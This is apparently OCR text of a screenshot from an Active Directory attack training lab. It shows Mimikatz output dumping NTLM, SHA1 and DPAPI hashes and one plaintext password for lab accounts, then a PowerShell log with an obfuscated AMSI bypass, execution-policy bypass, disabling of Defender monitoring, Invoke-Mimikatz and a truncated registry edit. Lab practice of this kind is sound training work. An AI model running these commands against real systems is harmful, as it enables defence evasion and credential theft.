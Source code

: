 Authentication Id : 0 ; 166214 (00000000:00028946)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:43:30 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1115
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : dcorp
         * NTLM     : a98e18228819e8eec3dfa33cb68b0728
         * SHA1     : f613d1bede9a620ba16ae786e242d3027809c82a
         * DPAPI    : ddce77eab64944efda38b5cfdad5395f
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 67126 (00000000:00010636)
Session           : Service from 0
User Name         : appadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:26 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1117
        msv :
         [00000003] Primary
         * Username : appadmin
         * Domain   : dcorp
         * NTLM     : d549831a955fee51a43c83efb3928fa7
         * SHA1     : 07de541a289d45a577f68c512c304dfcbf9e4816
         * DPAPI    : 7ec84538f109f73066103b9d1629f95e
        tspkg :
        wdigest :
         * Username : appadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ActuallyTheWebServer1
        ssp :
        credman :


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\